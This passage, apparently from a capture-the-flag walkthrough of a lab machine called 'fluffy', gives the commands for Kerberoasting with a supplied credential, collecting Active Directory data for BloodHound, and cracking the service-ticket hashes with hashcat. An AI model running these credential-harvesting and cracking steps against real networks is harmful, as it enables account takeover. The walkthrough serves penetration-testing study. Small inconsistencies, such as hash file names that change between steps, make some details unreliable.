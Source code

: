 ### Kerberoasting & RastaHound

These steps are performed to gather Kerberos service tickets that might contain crackable hashes.

1.  **Kerberoasting (using `ldapsearch` via `crackmapexec`):**

    ```bash
    crackmapexec ldap dc01.fluffy.htb -u jfleshman -p 'PrometheusX303' --kerberoasting output.txt
    ```

2.  **RastaHound (BloodHound data collection):**

    ```bash
    RastaHound.py -d fluffy.htb -u jfleshman -p 'PrometheusX303' --dc 10.10.11.69
    ```

      * `RastaHound.py` collects a broader range of Active Directory information, including certificate data, which is useful for later stages.

3.  **Crack Kerberoasted Hashes (on a separate, more powerful machine like "Kraken" in the video):**
    Copy the `output.txt` (or similar hash file) to your cracking machine.

    ```bash
    scp output.txt user@kraken:/path/to/hashes/
    ```

    On the cracking machine:

    ```bash
    hashcat -m 13100 fluffy_kb.hash -o cracked_hashes.txt /usr/share/wordlists/rockyou.txt --force
    ```

      * `-m 13100`: Specifies the hash type for Kerberos 5 TGS-REP etype 23.
      * `fluffy_kb.hash`: The file containing the Kerberoasted hashes.
      * `-o cracked_hashes.txt`: Output file for cracked hashes.
      * `/usr/share/wordlists/rockyou.txt`: Path to a common wordlist.
      * `--force`: Forces hashcat to run even if some warnings are present.

### BloodHound Ingestion & Analysis

BloodHound helps visualize Active Directory attack paths.

1.  **Start BloodHound:**

    ```bash
    cd /opt/bloodhound-server
    docker-compose up -d
    ```

2.  **Access BloodHound:** Navigate to `http://localhost:8088` (or your configured port).

3.  **Ingest Data:** Upload the `.json` files generated by RastaHound.

4.  **Analyze User Privileges:** Search for the `jfleshman` user and examine their group memberships and outbound object control to identify any immediate attack paths. (In the video, this user had no immediately exploitable privileges for a quick escalation).
